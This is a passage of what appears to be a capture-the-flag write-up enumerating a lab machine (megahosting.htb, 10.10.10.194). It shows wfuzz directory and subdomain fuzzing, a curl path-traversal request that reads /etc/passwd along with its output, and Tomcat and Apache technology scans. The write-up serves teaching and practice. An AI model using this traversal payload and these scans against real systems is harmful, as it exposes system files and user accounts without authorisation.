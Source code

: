 ```bash
000000023:   403        9 L      28 W       280 Ch      ".hta"            
000000025:   403        9 L      28 W       280 Ch      ".htpasswd"       
000000727:   301        9 L      28 W       319 Ch      "assets"          
000001757:   200        1 L      9 W        759 Ch      "favicon.ico"     
000001787:   301        9 L      28 W       318 Ch      "files"           
000002192:   200        373 L    938 W      14175 Ch    "index.php"       
000003709:   403        9 L      28 W       280 Ch      "server-status"   
```
As we now the domain name, we can fuzz the subdomains:
```bash
❯ wfuzz -c -u "http://megahosting.com" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 --hh 14175 -H "Host:FUZZ.megahosting.com" --hc 400,404
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://megahosting.com/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================
```
As we can see, there are no subdomains available.

#### Manual enumeration
While reading the page, we discovered the domain name `megahosting.htb`, let's add it to `/etc/hosts`. The webpage is `http://megahosting.htb/news.php?file=statement` and we can try path traversal:
```bash
❯ curl "http://megahosting.htb/news.php?file=../../../../../etc/passwd" -s | grep "sh$"
root:x:0:0:root:/root:/bin/bash
ash:x:1000:1000:clive:/home/ash:/bin/bash
```
We succeeded and enumerated `root` and `ash` users with a terminal. We can also retrieve `news.php` and `index.php`, but they are not useful.

### Port 8080 Enumeration
#### Technology scan
```bash
❯ whatweb 10.10.10.194:8080
http://10.10.10.194:8080 [200 OK] Apache-Tomcat, Country[RESERVED][ZZ], IP[10.10.10.194], Title[Apache Tomcat]
```
Together with `wappalyzer` extension:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| Apache | 2.4.41 | - |
| Domain name | megahosting.com | - |
| JQuery | 1.11.2 | - |
| Modernizr | 2.8.3-respond-1.4.2.min | - |
| PHP | - | - |
